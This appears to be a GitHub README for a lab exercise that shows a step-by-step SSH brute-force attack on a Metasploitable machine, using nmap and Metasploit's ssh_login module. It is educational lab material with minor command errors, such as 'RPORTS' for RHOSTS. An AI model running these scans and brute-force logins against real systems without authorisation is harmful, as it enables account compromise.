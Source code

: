 ##### Bruteforce-demo🥷🏿⛓️‍💥
---
##### _This is a simple display of how bruteforce attack works, the lab highlights the importance of redteam thinking, and the relationship between information gathering and exploitation, from the nmap open port being the one explored for exploitation._

---

##### Tools Used
- Nmap.
- Kali.
- Metaspliotable OS.
- Metaspliot framework.
---

##### Steps

##### 1. install metaspliotable on your kali

```bash
sudo apt update
sudo apt install metasploit-framework -y
```
---

##### 2. Access msfconsole

```bash
msfconsole
```
---

##### 3. Run basic nmap command to view open ports

```bash
nmap 192.168.1.4
```
My port 22/tcp (ssh) is opened so we would be exploiting that.

---

##### 4. Access scan ssh on msfconsole

```bash
msf > search ssh
```
---

##### 5. Access the auxiliary Scanner for ssh

```bash
msf > use auxiliary/scanner/ssh/ssh_login
```
---

##### 6. Search Options to understand the requirements and set them up

```bash
msf > show options
```
---

##### 7. Set the PASS_FILE, USER_FILE, RHOSTS, BRUTEFORCE_SPEED AND VERBOSE, as communicated under options

```bash
msf > set RPORTS 192.168.1.4
msf > set VERBOSE true
msf > set USER_FILE "file path/text file"
msf > set PASS_FILE "file path/text file"
```
#### Then run

```bash
msf > run
```
---

